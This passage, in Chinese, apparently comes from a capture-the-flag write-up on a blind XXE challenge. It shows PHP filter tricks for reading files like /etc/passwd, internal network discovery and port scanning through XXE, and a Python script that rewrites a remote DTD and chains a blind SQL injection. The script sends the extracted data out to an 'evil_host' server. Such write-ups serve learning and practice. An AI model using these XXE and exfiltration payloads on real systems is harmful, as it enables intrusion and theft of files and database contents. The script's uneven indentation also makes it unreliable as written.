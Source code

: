 拿到第一部分 flag

```
<?php
define(BASEDIR, "/var/www/52dandan.club/");
define(FLAG_SIG, 1);
define(SECRETFILE,'/var/www/52dandan.com/public_html/youwillneverknowthisfile_e2cd3614b63ccdcbfe7c8f07376fe431');
....
?>
```

> **注意：**
>
> 这里有一个小技巧，当我们使用 libxml 读取文件内容的时候，文件不能过大，如果太大就会报错，于是我们就需要使用 php
> 过滤器的一个压缩的方法
>
> 压缩：echo file_get_contents("php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd");
> 解压：echo file_get_contents("php://filter/read=convert.base64-decode/zlib.inflate/resource=/tmp/1");

然后我们考虑内网有没有东西，我们读取

```
/proc/net/arp
/etc/host
```

找到内网的另一台服务器的 ip 地址 192.168.223.18

拿到这个 ip 我们考虑就要使用 XXE 进行端口扫描了，然后我们发现开放了 80 端口，然后我们再进行目录扫描，找到一个 test.php ，根据提示，这个页面的 shop 参数存在一个注入,但是因为本身这个就是一个 Blind XXE ,我们的对服务器的请求都是在我们的远程 DTD 中包含的，现在我们需要改变我们的请求，那我们就要在每一次修改请求的时候修改我们远程服务器的 DTD 文件，于是我们的脚本就要挂在我们的 VPS 上，一边边修改 DTD 一边向存在 XXE 漏洞的主机发送请求，脚本就像下面这个样子

**示例代码：**

```
import requests
url = 'http://39.107.33.75:33899/common.php'
s = requests.Session()
result = ''
data = {
        "name":"evil_man",
        "email":"testabcdefg@gmail.com",
        "comment":"""<?xml version="1.0" encoding="utf-8"?>
                <!DOCTYPE root [
                <!ENTITY % dtd SYSTEM "http://evil_host/evil.dtd">
                %dtd;]>
                """
}

for i in range(0,28):
        for j in range(48,123):
                f = open('./evil.dtd','w')
            payload2 = """<!ENTITY % file SYSTEM "php://filter/read=zlib.deflate/convert.base64-encode/resource=http://192.168.223.18/test.php?shop=3'-(case%a0when((select%a0group_concat(total)%a0from%a0albert_shop)like%a0binary('{}'))then(0)else(1)end)-'1">
                <!ENTITY % all "<!ENTITY % send SYSTEM 'http://evil_host/?result=%file;'>">
                %all;
                %send;""".format('_'*i+chr(j)+'_'*(27-i))
                f.write(payload2)
                f.close()
                print 'test {}'.format(chr(j))
                r = s.post(url,data=data)
                if "Oti3a3LeLPdkPkqKF84xs=" in r.content and chr(j)!='_':
                        result += chr(j)
                        print chr(j)
```